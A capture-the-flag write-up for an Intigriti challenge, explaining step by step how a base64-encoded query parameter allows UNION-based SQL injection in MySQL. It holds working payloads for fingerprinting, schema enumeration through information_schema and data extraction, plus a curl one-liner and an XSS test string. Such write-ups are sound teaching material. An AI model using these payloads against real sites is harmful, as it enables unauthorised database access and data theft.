







# Intigriti September 2026 Challenge - Write-up

> **Challenge:** [Critter Gallery](https://challenge-0926.challenges.intigriti.io/challenge.php) · **Author:** [@khanhdlq](https://x.com/khanhdlq) · **Category:** SQL Injection · **Flag:** `INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}`

## TL;DR

A base64-encoded `pic` query parameter is decoded and concatenated directly into a SQL query without parameterisation. The injection point is unauthenticated and reachable in a single GET request. A UNION-based payload extracts the flag from a hidden `secret_vault` table.

---

## 1 - Reconnaissance

The challenge page at `/challenge.php` is a cute "Critter Gallery" - eight animal tiles, each linking to a detail view via `?pic=<base64>`:



The `pic` value decodes to a plain animal name: `Zm94` → `fox`, `cGFuZGE=` → `panda`, etc. Clicking a tile loads a detail card with three pieces of data:

| Element | Example |
|---|---|
| **Emoji** (`<div class="art">`) | 🦊 |
| **Name** (`<h2>`) | fox |
| **Description** (`<div class="desc">`) | *The red fox is a clever, highly adaptable hunter.* |

The name is just the decoded `pic` value, HTML-escaped. The emoji and description are looked up from the name.

An invalid name (any string not matching a known animal) shows the default painting emoji 🖼️ and the text *"No critter goes by that name yet."*

---

## 2 - Spotting the normalisation differential

Before breaking anything, I tested how the application handles case variations of a known name:

| `pic` decodes to | Emoji | Description |
|---|---|---|
| `fox` | 🦊 | ✅ fox's description |
| `FOX` | 🖼️ (default) | ✅ fox's description |
| `Fox` | 🖼️ (default) | ✅ fox's description |
| `fOX` | 🖼️ (default) | ✅ fox's description |

The emoji only appears for the **exact** lowercase name - it's a case-sensitive lookup, likely a PHP array (`$emojis['fox']`).

But the description is returned regardless of case. That's the tell: **case-insensitive string matching is the default behaviour of a MySQL `utf8mb4_..._ci` collation**. Two different normalisation strategies mean two different backends - the emoji comes from application code, but the description is resolved by a SQL query.

---

## 3 - Breaking the query

If the decoded name goes into a SQL query, a single quote should break it. Let's try:

```
pic = base64("'") = Jw==
```

```bash
curl -s -o /dev/null -w "code=%{http_code} size=%{size_download}\n" \
  "https://challenge-0926.challenges.intigriti.io/challenge.php?pic=Jw%3D%3D"
```

```
code=200 size=0
```

**HTTP 200 with a zero-byte body** - not a WAF block, not a validation error page, but a silent crash. This is what an uncaught PDO exception looks like when `display_errors` is off. The backslash `\` also triggers the same empty response, while every non-special character returns a normal page.

That's strong evidence: the decoded `pic` value is concatenated into a SQL string literal without escaping.

---

## 4 - Confirming the injection

### Boolean differential

The classic test: inject a condition that is true, then one that is false, and observe the difference.

**True condition** - `fox' AND '1'='1`:



Fox's description is displayed - the query returns a row.

**False condition** - `fox' AND '1'='2`:



*"No critter goes by that name yet."* - the injected `AND` clause made the `WHERE` false, so no row came back.

This confirms classic **string-based SQL injection** - we control the WHERE clause.

### UNION proof

To prove we can inject entirely new result rows:

```sql
fox' UNION SELECT 'INJECTED-BY-UNION
```


The real fox description appears, followed by our injected string `INJECTED-BY-UNION` on the next line. The underlying query is therefore:

```sql
SELECT description FROM animals WHERE name = '<decoded pic>'
```

It's a **single-column SELECT** - a two-column `UNION SELECT '1','2` returns the zero-byte error (column count mismatch). This means every extraction payload must project exactly one column, and `GROUP_CONCAT()` is needed to pull multiple values through that single slot.

---

## 5 - Fingerprinting the database

```sql
x' UNION SELECT CONCAT(@@version,' / ',database(),' / ',user())-- -
```



| Property | Value |
|---|---|
| DBMS | MySQL `8.0.46` |
| Database | `critter_gallery` |
| User | `gallery@10.18.49.50` |

> **Note on comment syntax:** MySQL's `--` comment requires a trailing space to be recognised. A bare `fox'--` (no space) triggers a parse error and returns the zero-byte crash page. Using `-- -` (dash-dash-space-dash) is a reliable workaround - the extra `-` is just filler after the space.

---

## 6 - Enumerating the schema

### Tables

```sql
x' UNION SELECT (SELECT GROUP_CONCAT(table_name)
                 FROM information_schema.tables
                 WHERE table_schema=database())-- -
```



Two tables: `animals` (the gallery data) and **`secret_vault`** - a table that no feature of the application exposes.

### Columns of `secret_vault`

```sql
x' UNION SELECT (SELECT GROUP_CONCAT(table_name,'.',column_name,' ',column_type)
                 FROM information_schema.columns
                 WHERE table_schema=database()
                 AND table_name='secret_vault')-- -
```



| Column | Type |
|---|---|
| `id` | `int` |
| `note` | `varchar(255)` |

---

## 7 - Extracting the flag

```sql
x' UNION SELECT note FROM secret_vault-- -
```



```
INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```

---

## Payloads

Every payload goes through the same encoding pipeline: `raw SQL → base64 → URL-encode` (replacing `+` with `%2B`, `/` with `%2F`, `=` with `%3D`).

| Step | Decoded payload | Purpose |
|---|---|---|
| Boolean TRUE | `fox' AND '1'='1` | Confirm injection |
| Boolean FALSE | `fox' AND '1'='2` | Confirm WHERE-clause control |
| UNION proof | `fox' UNION SELECT 'INJECTED-BY-UNION` | Prove row injection |
| Fingerprint | `x' UNION SELECT CONCAT(@@version,' / ',database(),' / ',user())-- -` | MySQL version, db name, user |
| Tables | `x' UNION SELECT (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database())-- -` | List tables |
| Columns | `x' UNION SELECT (SELECT GROUP_CONCAT(table_name,'.',column_name,' ',column_type) FROM information_schema.columns WHERE table_schema=database() AND table_name='secret_vault')-- -` | List columns |
| **Flag** | `x' UNION SELECT note FROM secret_vault-- -` | **Read the flag** |

### One-liner to reproduce

```bash
curl -s "https://challenge-0926.challenges.intigriti.io/challenge.php?pic=$(
  printf '%s' "x' UNION SELECT note FROM secret_vault-- -" | base64 -w0
)" | grep -oP '(?<=<div class="desc">).*(?=<br>)'
```

### Final PoC URL

```
https://challenge-0926.challenges.intigriti.io/challenge.php?pic=eCcgVU5JT04gU0VMRUNUIG5vdGUgRlJPTSBzZWNyZXRfdmF1bHQtLSAt
```

---

## Why it's SQLi, not XSS

At first glance, injecting content into the page's description panel might look like it could lead to XSS. I tested:

```sql
x' UNION SELECT '
```

The output:

```html
<div class="desc">&lt;img src=x onerror=alert(document.domain)&gt;<br></div>
```

Both the `<h2>` name and the `<div class="desc">` description pass through `htmlspecialchars()` - all `<`, `>`, `"`, and `&` are entity-encoded. **There is no XSS here.** The challenge is purely about SQL injection: the flag lives in the database, not in a JavaScript execution context.

---

## Key observations

- **The initial tell was behavioural, not syntactic.** The case-sensitivity differential between the emoji lookup and the description lookup revealed that two different systems resolve the same input - and a case-insensitive one in a PHP app almost always means a database query with a `_ci` collation.

- **The zero-byte crash page is the canary.** Instead of a 500 or a visible error, the application returns HTTP 200 with an empty body on SQL errors. This is easy to miss if you're only looking at status codes - you need to check `Content-Length: 0` or the actual response size.

- **Single-column constraint forces `GROUP_CONCAT()`.** The underlying `SELECT` projects only one column (`description`), so a `UNION` can only inject one column. Multi-value extractions need `GROUP_CONCAT()` to serialise them into a single string.

- **MySQL comment syntax gotcha.** `--` alone is not a valid comment terminator in MySQL - it needs a trailing space. `-- -` is the standard workaround (`--[space][anything]`). Using `#` also works but can be URL-interpreted; `-- -` is safer in a URL context.

---

*Challenge by [@khanhdlq](https://x.com/khanhdlq) for [Intigriti](https://www.intigriti.com/) - September 2026*
